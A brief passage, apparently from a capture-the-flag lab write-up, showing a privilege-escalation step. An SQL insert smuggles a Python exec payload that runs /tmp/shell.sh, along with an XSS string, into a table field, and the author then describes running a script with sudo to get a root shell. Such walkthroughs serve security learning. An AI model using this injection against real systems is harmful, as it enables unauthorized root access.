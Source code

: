 ```sql
insert into escalate values ("abc","abc","abc",'hello=exec("""\nimport os\nos.system("/tmp/shell.sh")\nprint("&ErrMsg=%3Cimg%20src=%22http://htb.com%22%20/%3E%3CSCRIPT%3Ealert%28%22xss%22%29%3C/SCRIPT%3E")""")');
```

Then, we can run the security using sudo and receive a root shell.

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>
